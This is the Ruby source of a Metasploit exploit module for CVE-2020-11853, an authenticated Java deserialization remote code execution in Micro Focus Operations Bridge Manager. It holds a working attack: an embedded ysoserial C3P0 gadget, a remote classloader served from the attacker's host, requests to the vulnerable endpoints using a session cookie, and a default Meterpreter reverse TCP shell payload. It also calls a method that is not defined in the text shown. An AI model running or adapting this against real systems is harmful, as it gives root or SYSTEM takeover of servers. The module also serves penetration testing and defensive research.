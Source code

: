     ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::Remote::Java::HTTP::ClassLoader
      prepend Msf::Exploit::Remote::AutoCheck
      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Micro Focus Operations Bridge Manager Authenticated Remote Code Execution',
            'Description' => %q{
              This module exploits an authenticated Java deserialization that affects a truckload of Micro
              Focus products: Operations Bridge Manager, Application Performance Management, Data Center Automation,
              Universal CMDB, Hybrid Cloud Management and Service Management Automation. However this module
              was only tested on Operations Bridge Manager.
              Exploiting this vulnerability will result in remote code execution as the root user on Linux or
              the SYSTEM user on Windows.
              Authentication is required, the module user needs to login to the application and obtain the
              authenticated LWSSO_COOKIE_KEY, which should be fed to the module. Any authenticated user can
              exploit this vulnerability, even the lowest privileged ones.
              For more information refer to the advisory link below.
            },
            'Author' =>
            [
              'Pedro Ribeiro <pedrib[at]gmail.com>', # Vulnerability discovery and Metasploit module
            ],
            'References' =>
              [
                [ 'URL', 'https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md'],
                [ 'CVE', '2020-11853'],
                [ 'ZDI', '20-1327'],
              ],
            'DisclosureDate' => '2020-10-28',
            'License' => MSF_LICENSE,
            'Platform' => 'java',
            'Arch' => ARCH_JAVA,
            'Privileged' => true,
            'Targets' => [
              ['Micro Focus Operations Bridge Manager <= 2020.05 (and many other MF products)', {}]
            ],
            'DefaultTarget' => 0,
            'DefaultOptions' => {
              'PAYLOAD' => 'java/meterpreter/reverse_tcp'
            }
          )
        )

        register_options([
          Opt::RPORT(443),
          OptString.new('TARGETURI', [true, 'Base path', '/']),
          OptBool.new('SSL', [true, 'Negotiate SSL/TLS', true]),
          OptString.new('LWSSO_COOKIE_KEY', [true, 'Authenticated LWSSO_COOKIE_KEY session cookie'])
        ])
      end

      def check
        res = send_request_cgi({
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, '/topaz/login.jsp')
        })

        # unfortunately could not find an easy way to detect the version running, even when auth
        if res && res.code == 200 && res.body.include?('Login - Operations Bridge Manager')
          return Exploit::CheckCode::Detected
        end

        return Exploit::CheckCode::Unknown
      end

      def exploit
        # Start our HTTP server to provide remote classloading
        @classloader_uri = start_service

        unless @classloader_uri
          fail_with(Failure::BadConfig, 'Could not start remote classloader server')
        end

        print_good("Started remote classloader server at #{@classloader_uri}")

        # heh, we got two of these, let's pick one randomly!
        vuln_uri = [
          '/legacy/topaz/sitescope/conf/registration',
          '/legacy/topaz/sitescope/conf/download'
        ].sample

        # Send our remote classloader gadget to the target, triggering the vuln
        send_request_gadget(
          normalize_uri(target_uri.path, vuln_uri)
        )
      end

      # Convenience method to send our gadget to a URI
      def send_request_gadget(uri)
        print_status("Sending remote classloader gadget to #{full_uri(uri)}")

        send_request_raw({
          'method' => 'POST',
          'uri' => uri,
          'cookie' => "LWSSO_COOKIE_KEY=#{datastore['LWSSO_COOKIE_KEY']}",
          'headers' => { 'Content-Type' => 'application/octet-stream' },
          'data' => go_go_gadget
        }, 0)
      end

      # C3P0 payload generated with a ysoserial jar
      # The ysoserial jar needs to be built with c3p0 version 0.9.1.2 as that is what the target uses
      # See the advisory for details.
      #
      # java -jar ysoserial-0.0.6-SNAPSHOT-all-c3p0-0.9.1.2.jar C3P0 'http://whatever/:ExploitClass' | base64
      def go_go_gadget
        gadget = Rex::Text.decode_base64(
          <<~EOF
            rO0ABXNyAChjb20ubWNoYW5nZS52Mi5jM3AwLlBvb2xCYWNrZWREYXRhU291cmNlZoRH/BzETxgC
            AAB4cgA1Y29tLm1jaGFuZ2UudjIuYzNwMC5pbXBsLkFic3RyYWN0UG9vbEJhY2tlZERhdGFTb3Vy
            Y2UAAAAAAAAAAQMAAHhyADFjb20ubWNoYW5nZS52Mi5jM3AwLmltcGwuUG9vbEJhY2tlZERhdGFT
            b3VyY2VCYXNlAAAAAAAAAAEDAAdJABBudW1IZWxwZXJUaHJlYWRzTAAYY29ubmVjdGlvblBvb2xE
            YXRhU291cmNldAAkTGphdmF4L3NxbC9Db25uZWN0aW9uUG9vbERhdGFTb3VyY2U7TAAOZGF0YVNv
            dXJjZU5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABRmYWN0b3J5Q2xhc3NMb2NhdGlvbnEAfgAE
            TAANaWRlbnRpdHlUb2tlbnEAfgAETAADcGNzdAAiTGphdmEvYmVhbnMvUHJvcGVydHlDaGFuZ2VT
            dXBwb3J0O0wAA3Zjc3QAIkxqYXZhL2JlYW5zL1ZldG9hYmxlQ2hhbmdlU3VwcG9ydDt4cHcCAAFz
            cgA9Y29tLm1jaGFuZ2UudjIubmFtaW5nLlJlZmVyZW5jZUluZGlyZWN0b3IkUmVmZXJlbmNlU2Vy
            aWFsaXplZGIZhdDRKsITAgAETAALY29udGV4dE5hbWV0ABNMamF2YXgvbmFtaW5nL05hbWU7TAAD
            ZW52dAAVTGphdmEvdXRpbC9IYXNodGFibGU7TAAEbmFtZXEAfgAJTAAJcmVmZXJlbmNldAAYTGph
            dmF4L25hbWluZy9SZWZlcmVuY2U7eHBwcHBzcgAWamF2YXgubmFtaW5nLlJlZmVyZW5jZejGnqKo
            6Y0JAgAETAAFYWRkcnN0ABJMamF2YS91dGlsL1ZlY3RvcjtMAAxjbGFzc0ZhY3RvcnlxAH4ABEwA
            FGNsYXNzRmFjdG9yeUxvY2F0aW9ucQB+AARMAAljbGFzc05hbWVxAH4ABHhwc3IAEGphdmEudXRp
            bC5WZWN0b3LZl31bgDuvAQMAA0kAEWNhcGFjaXR5SW5jcmVtZW50SQAMZWxlbWVudENvdW50WwAL
            ZWxlbWVudERhdGF0ABNbTGphdmEvbGFuZy9PYmplY3Q7eHAAAAAAAAAAAHVyABNbTGphdmEubGFu
            Zy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAApwcHBwcHBwcHBweHQADEV4cGxvaXRDbGFzc3QAEGh0
            dHA6Ly93aGF0ZXZlci90AAdleHBsb2l0cHBwdwQAAAAAeHcCAAF4
          EOF
        )

        # Replace length-prefixed placeholder strings with our own
        gadget.sub!("\x00\x10http://whatever/", packed_classloader_uri)
        gadget.sub!("\x00\x07exploit", packed_class_name)
        gadget.sub("\x00\x0cExploitClass", packed_class_name)
      end

      # Convenience method to pack the classloader URI as a length-prefixed string
      def packed_classloader_uri
        "#{[@classloader_uri.length].pack('n')}#{@classloader_uri}"
      end

    end